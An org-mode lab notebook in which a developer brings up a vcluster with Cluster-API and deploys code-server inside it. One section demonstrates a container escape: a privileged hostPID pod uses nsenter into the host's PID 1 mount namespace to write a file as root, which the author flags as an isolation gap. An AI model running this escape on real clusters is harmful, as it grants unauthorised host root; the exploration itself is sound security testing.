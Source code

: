 #+title: Coder in vcluster explore

* Purpose

To bring up a vcluster with Cluster-API.
Explore the usage of coder-server inside it.
Compare the findings to Pair(current).

* Initialise

#+begin_src tmate :window vcoder
clusterctl init --infrastructure vcluster
#+end_src

* Generate config from a template

We will expect to talk to it over a NodePort, using the DNS name of this Pair cluster
#+begin_src shell
export CLUSTER_NAME=vcluster1
export CLUSTER_NAMESPACE=vclusters
export KUBERNETES_VERSION=1.23.4
export HELM_VALUES="service:\n  type: NodePort\nsyncer:\n  extraArgs:\n    - --tls-san=bobymcbobs.pair.sharing.io"
kubectl create namespace ${CLUSTER_NAMESPACE} \
    -o yaml --dry-run=client > ./vclusters-vcluster1.yaml
kubectl label ns ${CLUSTER_NAMESPACE} cert-manager-tls=sync
echo '---' >> ./vclusters-vcluster1.yaml
clusterctl generate cluster ${CLUSTER_NAME} \
    --infrastructure vcluster \
    --kubernetes-version ${KUBERNETES_VERSION} \
    --target-namespace ${CLUSTER_NAMESPACE} >> ./vclusters-vcluster1.yaml
#+end_src

#+RESULTS:
#+begin_example
namespace/vclusters labeled
#+end_example

* Bring up the cluster

#+begin_src shell
kubectl apply -f ./vclusters-vcluster1.yaml
#+end_src

#+RESULTS:
#+begin_example
namespace/vclusters configured
cluster.cluster.x-k8s.io/vcluster1 unchanged
vcluster.infrastructure.cluster.x-k8s.io/vcluster1 configured
#+end_example

* See what's running

#+begin_src shell
kubectl -n vclusters get cluster,vcluster,svc,pods
#+end_src

#+RESULTS:
#+begin_example
NAME                                 PHASE         AGE   VERSION
cluster.cluster.x-k8s.io/vcluster1   Provisioned   27m

NAME                                                 AGE
vcluster.infrastructure.cluster.x-k8s.io/vcluster1   27m

NAME                                                    TYPE        CLUSTER-IP       EXTERNAL-IP   PORT(S)                  AGE
service/kube-dns-x-kube-system-x-vcluster1              ClusterIP   10.103.85.64     <none>        53/UDP,53/TCP,9153/TCP   27m
service/vcluster1                                       NodePort    10.96.230.224    <none>        443:30667/TCP            27m
service/vcluster1-headless                              ClusterIP   None             <none>        443/TCP                  27m
service/vcluster1-node-bobymcbobs-control-plane-r778w   ClusterIP   10.101.240.152   <none>        10250/TCP                27m

NAME                                                     READY   STATUS    RESTARTS   AGE
pod/coredns-669fb9997d-29xqm-x-kube-system-x-vcluster1   1/1     Running   0          27m
pod/vcluster1-0                                          2/2     Running   0          28s
#+end_example

* Get the Kubeconfig

#+begin_src shell
kubectl -n vclusters get secrets vcluster1-kubeconfig -o=jsonpath='{.data.value}' | base64 -d > ~/.kube/config-vcluster1
#+end_src

#+RESULTS:
#+begin_example
#+end_example

* Create an Ingress for vcluster1's APIServer

#+begin_src yaml :tangle ./vcluster1-ingress.yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  annotations:
    nginx.ingress.kubernetes.io/backend-protocol: HTTPS
    nginx.ingress.kubernetes.io/ssl-redirect: "true"
  name: vcluster1
  namespace: vclusters
spec:
  ingressClassName: contour-external
  rules:
  - host: vcluster1.bobymcbobs.pair.shairng.io
    http:
      paths:
      - backend:
          service:
            name: vcluster1
            port:
              number: 443
        path: /
        pathType: ImplementationSpecific
  tls:
  - hosts:
      - vcluster1.bobymcbobs.pair.sharing.io
#+end_src

#+begin_src shell
kubectl apply -f ./vcluster1-ingress.yaml
#+end_src

#+RESULTS:
#+begin_example
ingress.networking.k8s.io/vcluster1 created
#+end_example

* Get the Kubeconfig context

#+begin_src shell
export KUBECONFIG=~/.kube/config-vcluster1
kubectl config set clusters.my-vcluster.server https://bobymcbobs.pair.sharing.io:30667
#+end_src

#+RESULTS:
#+begin_example
Property "clusters.my-vcluster.server" set.
#+end_example

* Try to talk to it

#+begin_src shell :prologue "(\n" :epilogue "\n) 2>&1 ; :"
export KUBECONFIG=~/.kube/config-vcluster1
kubectl cluster-info
echo
kubectl get pods,svc -A
#+end_src

#+RESULTS:
#+begin_example
Kubernetes control plane is running at https://bobymcbobs.pair.sharing.io:30667
CoreDNS is running at https://bobymcbobs.pair.sharing.io:30667/api/v1/namespaces/kube-system/services/kube-dns:dns/proxy

To further debug and diagnose cluster problems, use 'kubectl cluster-info dump'.

NAMESPACE     NAME                           READY   STATUS    RESTARTS   AGE
kube-system   pod/coredns-669fb9997d-29xqm   1/1     Running   0          28m

NAMESPACE     NAME                 TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)                  AGE
kube-system   service/kube-dns     ClusterIP   10.103.85.64    <none>        53/UDP,53/TCP,9153/TCP   28m
default       service/kubernetes   ClusterIP   10.96.230.224   <none>        443/TCP                  28m
#+end_example

* Try ping a service on the host via a Cluster-IP

#+begin_src shell
HOST_SVC=$(kubectl -n default get svc kubernetes -o=jsonpath='{.spec.clusterIPs[0]}')
export KUBECONFIG=~/.kube/config-vcluster1
kubectl run -it --rm a --image=alpine:3.15 -- sh -c "apk add curl; curl -k https://${HOST_SVC}:443"
#+end_src

#+RESULTS:
#+begin_example
fetch https://dl-cdn.alpinelinux.org/alpine/v3.15/main/x86_64/APKINDEX.tar.gz
fetch https://dl-cdn.alpinelinux.org/alpine/v3.15/community/x86_64/APKINDEX.tar.gz
(1/5) Installing ca-certificates (20220614-r0)
7  0%                                             87  1%                                             87  2%                                             87  2% #                                           87  3% #                                           87  4% #                                           87  4% ##                                          87  5% ##                                          87  6% ##                                          87  6% ###                                         87  7% ###                                         87  8% ###                                         87  9% ####                                        87 10% ####                                        87 11% ####                                        87 11% #####                                       87 12% #####                                       87 13% #####                                       87 13% ######                                      87 14% ######                                      87 15% ######                                      87 16% #######                                     87 17% #######                                     87 18% #######                                     87 18% ########                                    87 19% ########                                    87 20% ########                                    87 20% #########                                   87 21% #########                                   87 22% #########                                   87 22% ##########                                  87 23% ##########                                  87 24% ##########                                  87 25% ###########                                 87 26% ###########                                 8(2/5) Installing brotli-libs (1.0.9-r5)
7 29% #############                               87 35% ###############                             87 37% ################                            8(3/5) Installing nghttp2-libs (1.46.0-r0)
7 60% ##########################                  8(4/5) Installing libcurl (7.80.0-r3)
7 67% #############################               8(5/5) Installing curl (7.80.0-r3)
7 89% #######################################     87100% ############################################8Executing busybox-1.34.1-r7.trigger
Executing ca-certificates-20220614-r0.trigger
OK: 8 MiB in 19 packages
{
  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "forbidden: User \"system:anonymous\" cannot get path \"/\"",
  "reason": "Forbidden",
  "details": {},
  "code": 403
}pod "a" deleted
#+end_example

Can still communicate on the host network

Root on host please
#+begin_src shell
echo "Now:"
TZ=Pacific/Auckland date
export KUBECONFIG=~/.kube/config-vcluster1
kubectl run h0nk --rm -it --image alpine --privileged --overrides '{"spec":{"hostPID": true}}' --command nsenter -- --mount=/proc/1/ns/mnt su root -c 'bash -c "TZ=Pacific/Auckland date > /pwned"'
echo "Has pwn at:"
cat /var/run/host/pwned
#+end_src

#+RESULTS:
#+begin_example
Now:
Tue Sep 27 04:18:31 PM NZDT 2022
pod "h0nk" deleted
Has pwn at:
Tue Sep 27 16:19:17 NZDT 2022
#+end_example
whoops, root.

12h off for some reason.

There's a guide on securing vcluster deployments
https://www.vcluster.com/docs/operator/security

Is it possible to provide sufficient isolation? also while keeping it a free-to-anything development environment?

* Deploy a test website

#+begin_src shell
export KUBECONFIG=~/.kube/config-vcluster1

kubectl create deployment nginx --image=nginx:stable --port 80
kubectl expose deployment nginx --port 80
kubectl create ingress nginx --rule="nginx-in-vcluster1.bobymcbobs.pair.sharing.io/=nginx:80" --class=contour-external
#+end_src

#+RESULTS:
#+begin_example
ingress.networking.k8s.io/nginx created
#+end_example

Test
#+begin_src shell :prologue "(\n" :epilogue "\n) 2>&1 ; :"
curl -v http://nginx-in-vcluster1.bobymcbobs.pair.sharing.io/
#+end_src

#+RESULTS:
#+begin_example
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 86.109.11.89:80...
,* Connected to nginx-in-vcluster1.bobymcbobs.pair.sharing.io (86.109.11.89) port 80 (#0)
> GET / HTTP/1.1
> Host: nginx-in-vcluster1.bobymcbobs.pair.sharing.io
> User-Agent: curl/7.81.0
> Accept: */*
> 
,* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< server: envoy
< date: Tue, 27 Sep 2022 03:09:32 GMT
< content-type: text/html
< content-length: 615
< last-modified: Mon, 23 May 2022 23:59:19 GMT
< etag: "628c1fd7-267"
< accept-ranges: bytes
< x-envoy-upstream-service-time: 0
< vary: Accept-Encoding
< 
{ [615 bytes data]
100   615  100   615    0     0  67308      0 --:--:-- --:--:-- --:--:-- 68333
,* Connection #0 to host nginx-in-vcluster1.bobymcbobs.pair.sharing.io left intact
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>

<p>For online documentation and support please refer to
<a href="http://nginx.org/">nginx.org</a>.<br/>
Commercial support is available at
<a href="http://nginx.com/">nginx.com</a>.</p>

<p><em>Thank you for using nginx.</em></p>
</body>
</html>
#+end_example

This works because ingresses propigate to the host cluster.
The ingresses that sync to the host cluster must have a valid IngressClassName from host cluster.

An ingress controller could be deployed inside of the environment, but this would require it's own IP address to be allocated somehow.

* Deploy code-server

Set up RBAC

#+begin_src yaml :tangle ./coder-deploy-rbac.yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: coder
  namespace: default
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: coder
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: ClusterRole
  name: cluster-admin
subjects:
  - kind: ServiceAccount
    name: coder
    namespace: default
#+end_src

#+begin_src yaml :tangle ./code-server-values.yaml
ingress:
  enabled: true
  ingressClassName: contour-external
  # tls:
  #   - secretName: letsencrypt-prod
  #     hosts:
  #       - code-server-in-vcluster.bobymcbobs.pair.sharing.io
  hosts:
    - host: code-server-in-vcluster.bobymcbobs.pair.sharing.io
      paths:
        - /

persistence:
  storageClass: local-path

extraVars:
  - name: DISABLE_TELEMETRY
    value: "true"
  - name: DOCKER_HOST
    value: "tcp://localhost:2375"
extraContainers: |
  - name: docker-dind
    image: docker:19.03-dind
    imagePullPolicy: IfNotPresent
    resources:
      requests:
        cpu: 250m
        memory: 256M
    securityContext:
      privileged: true
      procMount: Default
    env:
    - name: DOCKER_TLS_CERTDIR
      value: ""
    - name: DOCKER_DRIVER
      value: "overlay2"

extraInitContainers: |
  - name: customization
    image: {{ .Values.image.repository }}:{{ .Values.image.tag }}
    imagePullPolicy: IfNotPresent
    env:
      - name: SERVICE_URL
        value: https://open-vsx.org/vscode/gallery
      - name: ITEM_URL
        value: https://open-vsx.org/vscode/item
    command:
      - sh
      - -c
      - |
        code-server --install-extension ms-python.python
        code-server --install-extension golang.Go
        code-server --install-extension ms-azuretools.vscode-docker
    volumeMounts:
      - name: data
        mountPath: /home/coder
#+end_src

#+begin_src shell
git clone https://github.com/coder/code-server /tmp/code-server
#+end_src

#+RESULTS:
#+begin_example
#+end_example

Template and render a release from the chart
#+begin_src shell
helm template vcluster1 -n default -f ./code-server-values.yaml /tmp/code-server/ci/helm-chart > ./vcluster1-code-server.yaml
#+end_src

#+RESULTS:
#+begin_example
#+end_example

Install
#+begin_src shell
export KUBECONFIG=~/.kube/config-vcluster1
kubectl -n default apply -f ./coder-deploy-rbac.yaml -f ./vcluster1-code-server.yaml
#+end_src

#+RESULTS:
#+begin_example
serviceaccount/coder unchanged
clusterrolebinding.rbac.authorization.k8s.io/coder unchanged
serviceaccount/vcluster1-code-server unchanged
persistentvolumeclaim/vcluster1-code-server unchanged
service/vcluster1-code-server unchanged
deployment.apps/vcluster1-code-server configured
ingress.networking.k8s.io/vcluster1-code-server unchanged
secret/vcluster1-code-server unchanged
pod/vcluster1-code-server-test-connection unchanged
#+end_example

Get the login password
#+begin_src shell :results silent
export KUBECONFIG=~/.kube/config-vcluster1
kubectl -n default get secrets vcluster1-code-server -o=jsonpath='{.data.password}' | base64 -d ; echo
#+end_src

* TODO
- code-server ingress TLS
  - sync from host to vcluster?
  - access without websocket errors
- resource constraints?
- security?
- feature parity?

* Thoughts
- this ends up as another form of time sharing and has many more complications and constraints
- ii felt more freedom when having isolated Pair environments, when coming from working on a single server
    - using virtual clusters may be similar to that
